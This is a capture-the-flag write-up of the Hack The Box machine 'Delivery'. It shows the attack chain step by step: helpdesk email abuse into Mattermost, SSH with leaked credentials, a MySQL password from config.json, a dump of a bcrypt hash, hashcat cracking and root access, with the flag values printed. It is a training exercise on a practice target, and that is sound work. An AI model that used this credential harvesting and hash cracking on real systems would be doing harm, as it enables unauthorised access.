


# HTB: Delivery

## Engagement Overview

Target: Delivery    
Box IP: 10.10.10.222    
Date: 2025-09-27    
Attacker Host: 10.10.14.6

---

### Objectives

- Compromise internal chat system Matter Most.
- Extract credentials and artifacts from internal chat.
- Gain initial foothold via SSH.
- Find root hashes and crack with found artifacts.
- Escalate and capture `user.txt` and `root.txt`.

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -p- -oN logs/nmap.full 10.10.10.222
```

```bash
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8065/tcp open  http    Golang net/http server
```

### Web Discovery

- Port 80 leads us to a linked vhost `helpdesk.delivery.htb`
- Cannot sign-up due to email limitations, but ticket creation/status is available with internal email generation:




- Port 8065 leads to what looks like an internal chat system.
- Requires corp email activation to sign up and login, used miss configured support center ticket system.
- Access gained.



- Given the information we'll be looking for user hashes and cracking with `PleaseSubscribe!`
- Credential found: `maildeliverer:Youve_G0t_Mail!`

---

## Initial Access

Ssh in as maildeliverer and retrieved flag:

```bash
maildeliverer@Delivery:~$ cat user.txt
bb350daf736a264d361f98d26e6b0e1a
```

Found mysql creds in matter most config.json:

```bash
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

## Privilege Escalation

### Abusing Saved Credential

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -pCrack_The_MM_Admin_PW mattermost
```

```mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 96
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]> 
MariaDB [mattermost]> select * from Users;
---
MariaDB [mattermost]> select Username,Password from Users;

| root | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

Cracking hash:

```bash
cat hash.txt   
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

cat pass.list 
PleaseSubscribe!

# Cracking
hashcat -m 3200 hash.txt pass.list --user -r /usr/share/hashcat/rules/best64.rule

Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
```

Root:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su -
Password: 
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# cat root.txt
48f92a09c818a0266078b0605cf942e7

# Cute note
root@Delivery:~# cat note.txt
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
```

## House Cleaning

- No persistence or artifacts left on target.  

## Tools Utilized

- `nmap`, `ssh` `mysql`, `hashcat`

## Key Takeaways

- Mattermost (or similar chat systems) is a high-value target for credential harvesting when internal email activation or invite flows are misconfigured or leaking tokens.
- Web vhosts and helpdesk portals often contain useful disclosure (tickets, attachments) that can reveal internal usernames, email addresses, or temporary tokens.
- Always check for credential reuse between web apps, databases, and SSH.
